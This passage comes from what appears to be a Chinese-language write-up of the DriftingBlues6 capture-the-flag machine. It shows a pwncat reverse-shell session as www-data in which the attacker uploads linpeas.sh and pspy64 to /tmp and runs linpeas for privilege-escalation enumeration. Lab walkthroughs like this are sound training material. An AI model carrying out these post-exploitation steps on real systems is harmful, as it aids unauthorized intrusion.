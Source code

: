 ```bash
drwxrwsr-x  2 root staff 4096 Mar 17  2021 include
drwxrwsr-x  3 root staff 4096 Mar 17  2021 lib
lrwxrwxrwx  1 root staff    9 Mar 17  2021 man -> share/man
drwxrwsr-x  2 root staff 4096 Mar 17  2021 sbin
drwxrwsr-x  5 root staff 4096 Mar 17  2021 share
drwxrwsr-x  2 root staff 4096 Mar 17  2021 src
(remote) www-data@driftingblues:/usr/local$ cd share/
(remote) www-data@driftingblues:/usr/local/share$ ls -la
total 20
drwxrwsr-x  5 root staff 4096 Mar 17  2021 .
drwxrwsr-x 10 root staff 4096 Mar 17  2021 ..
drwxrwsr-x  2 root staff 4096 Mar 17  2021 man
drwxrwsr-x  7 root staff 4096 Mar 17  2021 sgml
drwxrwsr-x  6 root staff 4096 Mar 17  2021 xml
(remote) www-data@driftingblues:/usr/local/share$ file *
bash: file: command not found
```

### 上传pspy64以及linpeas.sh

```bash
(remote) www-data@driftingblues:/usr/local/share$ cd /tmp
(remote) www-data@driftingblues:/tmp$ 
(local) pwncat$ lpwd
/home/kali/temp/driftingblues6
(local) pwncat$ lcd ..
(local) pwncat$ upload linpeas.sh
./linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 860.5/860.5 KB • ? • 0:00:00[02:15:05] uploaded 860.55KiB in 0.64 seconds                                                                                               upload.py:76
(local) pwncat$ upload pspy64
./pspy64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 4.5/4.5 MB • 3.3 MB/s • 0:00:00[02:15:09] uploaded 4.47MiB in 1.65 seconds                                                                                                 upload.py:76
(local) pwncat$                                                                                                                                         
(remote) www-data@driftingblues:/tmp$ chmod +x *
(remote) www-data@driftingblues:/tmp$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```